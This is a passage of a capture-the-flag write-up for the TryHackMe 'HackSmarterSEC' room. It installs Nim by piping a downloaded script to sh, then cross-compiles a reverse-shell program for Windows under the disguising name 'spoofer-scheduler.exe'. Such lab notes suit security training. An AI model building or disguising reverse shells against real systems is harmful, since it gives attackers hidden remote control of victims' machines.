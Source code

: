 Now we have to do some steps :

1. Install [Nim](../../3%20-%20Tags/Programming%20Languages/Nim.md) and add the Nimble dir to our PATH : 
```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
choosenim-init: Downloading choosenim-0.8.16_linux_amd64
Downloading Nim 2.2.4 from nim-lang.org
[##################################################] 100.0% 0kb/s
 Extracting nim-2.2.4-linux_x64.tar.xz
 Extracting nim-2.2.4-linux_x64.tar
   Building Nim 2.2.4
  Compiler: Already built
  Installed component 'nim'
  Installed component 'nimble'
  Installed component 'nimgrep'
  Installed component 'nimpretty'
  Installed component 'nimsuggest'
  Installed component 'testament'
  Installed component 'nim-gdb'
   Switched to Nim 2.2.4
choosenim-init: ChooseNim installed in /home/mdn0x/.nimble/bin
choosenim-init: You must now ensure that the Nimble bin dir is in your PATH.
choosenim-init: Place the following line in the ~/.profile or ~/.bashrc file.
choosenim-init:     export PATH=/home/mdn0x/.nimble/bin:$PATH
                                                                                                                                     
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ export PATH=/home/mdn0x/.nimble/bin:$PATH
                                                                                                                                     
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ nim --version 
Nim Compiler Version 2.2.4 [Linux: amd64]
Compiled at 2025-04-22
Copyright (c) 2006-2025 by Andreas Rumpf

git hash: f7145dd26efeeeb6eeae6fff649db244d81b212d
active boot switches: -d:release

```

2. Now we compile the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) with it and rename it like `spoofer-scheduler.exe`:
```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ nim c -d:mingw --app:gui  --opt:speed  -o:spoofer-scheduler.exe revshell.nim 
Hint: used config file '/home/mdn0x/.choosenim/toolchains/nim-2.2.4/config/nim.cfg' [Conf]
Hint: used config file '/home/mdn0x/.choosenim/toolchains/nim-2.2.4/config/config.nims' [Conf]
.......................................................................................................................................
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/system/exceptions.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/private/digitsutils.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/assertions.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/system/dollars.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/system/repr_v2.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/widestrs.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/syncio.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/system.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/parseutils.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/strutils.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/dynlib.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/windows/winlean.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/oserrors.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/pure/times.nim
CC: ../../../../.choosenim/toolchains/nim-2.2.4/lib/std/private/ospaths2.nim
```